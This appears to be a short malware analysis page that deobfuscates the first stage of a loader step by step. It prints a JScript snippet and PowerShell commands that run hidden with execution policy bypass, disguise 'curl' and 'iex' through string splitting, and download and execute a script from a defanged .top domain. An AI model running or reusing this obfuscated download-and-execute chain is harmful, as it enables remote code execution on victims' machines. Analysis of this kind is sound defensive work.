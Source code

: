 # Stage 1

{% stepper %}
{% step %}
###

```javascript
IHost.Sleep("13000");

IWshShell3.Run("powershell -noprofile -executionpolicy bypass -WindowStyle hidden -C "Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl');
 mint -useb hxxp[://]sdfjkhgyu6wjkhlasyhd[.]top/1[.]php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')"");
```


{% endstep %}

{% step %}
###

```batch
"powershell.exe" -noprofile -executionpolicy bypass -WindowStyle hidden -C "Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl');
 mint -useb hxxp[://]sdfjkhgyu6wjkhlasyhd[.]top/1[.]php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')"
```


{% endstep %}

{% step %}
###

```powershell
Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl');
 mint -useb hxxp[://]sdfjkhgyu6wjkhlasyhd[.]top/1[.]php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')
```


{% endstep %}

{% step %}
### Executes remote powershell script

```powershell
curl -useb hxxp[://]sdfjkhgyu6wjkhlasyhd[.]top/1[.]php?s=flibabc13 | iex
```
{% endstep %}
{% endstepper %}

